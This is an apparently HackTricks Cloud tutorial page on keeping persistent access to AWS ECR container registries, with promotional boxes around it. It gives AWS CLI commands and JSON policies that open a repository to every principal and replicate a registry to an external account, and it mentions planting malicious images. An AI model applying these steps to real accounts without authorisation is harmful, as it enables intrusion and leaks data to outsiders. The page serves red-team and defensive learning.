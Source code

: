 # AWS - ECR Persistence

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## ECR

For more information check:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

An attacker could **upload a Docker image containing malicious code** to an ECR repository and use it to maintain persistence in the target AWS account. The attacker could then deploy the malicious image to various services within the account, such as Amazon ECS or EKS, in a stealthy manner.

### Repository Policy

Add a policy to a single repository granting yourself (or everybody) access to a repository:

```bash
aws ecr set-repository-policy \
    --repository-name cluster-autoscaler \
    --policy-text file:///tmp/my-policy.json

# With a .json such as

{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

{% hint style="warning" %}
Note that ECR requires that users have **permission** to make calls to the **`ecr:GetAuthorizationToken`** API through an IAM policy **before they can authenticate** to a registry and push or pull any images from any Amazon ECR repository.
{% endhint %}

### Registry Policy & Cross-account Replication

It's possible to automatically replicate a registry in an external account configuring cross-account replication, where you need to **indicate the external account** there you want to replicate the registry.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, you need to give the external account access over the registry with a **registry policy** like:

```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
  "Sid": "asdasd",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::947247140022:root"
  },
  "Action": [
    "ecr:CreateRepository",
    "ecr:ReplicateImage"
  ],
  "Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```

Then apply the replication config:

```bash
aws ecr put-replication-configuration \
     --replication-configuration file://replication-settings.json \
     --region us-west-2

# Having the .json a content such as:
{
	"rules": [{
		"destinations": [{
			"region": "destination_region",
			"registryId": "destination_accountId"
		}],
		"repositoryFilters": [{
			"filter": "repository_prefix_name",
			"filterType": "PREFIX_MATCH"
		}]
	}]
}
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
